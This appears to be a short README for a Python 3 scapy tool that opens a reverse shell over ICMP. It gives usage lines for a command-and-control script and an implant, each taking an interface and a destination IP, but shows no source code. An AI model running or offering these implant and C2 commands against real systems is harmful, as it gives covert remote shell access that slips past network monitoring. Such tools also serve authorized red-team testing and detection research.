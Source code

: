 # ICMP Reverse Shell in Python 3 
ICMP reverse shell with py3 scapy

Usage:
```bash
icmp-cnc.py [-h] -i INTERFACE -d DESTINATION_IP (Command and Control)
./icmpdoor.py [-h] -i INTERFACE -d DESTINATION_IP (Implant)
```
Arguments:

```bash
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Listener (virtual) Network Interface (e.g. eth0)
  -d DESTINATION_IP, --destination_ip DESTINATION_IP
                        Destination IP address
  ```
